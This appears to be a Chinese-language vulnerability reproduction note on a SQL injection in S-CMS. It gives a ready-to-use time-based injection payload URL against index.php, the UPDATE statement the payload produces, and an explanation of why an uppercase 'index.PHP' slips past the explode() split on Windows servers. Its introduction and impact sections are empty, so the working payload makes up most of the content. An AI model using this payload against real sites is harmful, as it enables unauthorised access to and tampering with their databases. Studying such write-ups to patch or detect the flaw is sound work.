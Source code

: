 S-CMS sql注入漏洞（二）
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞位置：`index.php`

![](resource/S-CMSsql注入漏洞(二)/media/rId24.jpg)

跟进函数`splitx()`

    function splitx($a, $b, $c)
    {
        $d = explode($b, $a);
        return $d[$c];
    }

先上**payload**

    http://www.0-sec.org/index.PHP/a'%20where%20if(1,sleep(5),1)%23?action=update_dir

拼凑SQL语句

    update TABLE_config set C_dir='index.PHP/a' where if(1,sleep(5),1)#'

**解释**

**\$\_SERVER\['PHP\_SELF'\]**：获取当前文件的路径

> 如：127.0.0.1/xxe/xml.php =\> /xxe/xml.php

**explode(separator,string,limit)**：分割字符串形成数组

> separator：规定在哪里分割字符串。
>
> string：要分割的字符串。
>
> limit：规定所返回的数组元素的数目。

如果使用`index.php`，结果如下：

    array (size=2)
      0 => string '/index.php/' (length=5)
      1 => string '/a' where if(1,sleep(5),1)#' (length=27)

被截断，但若使用`index.PHP`：

    array (size=1)
      0 => string '/index.PHP/a' where if(1,sleep(5),1)#' (length=39)

前提：Windows系统下不区分文件大小写。

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
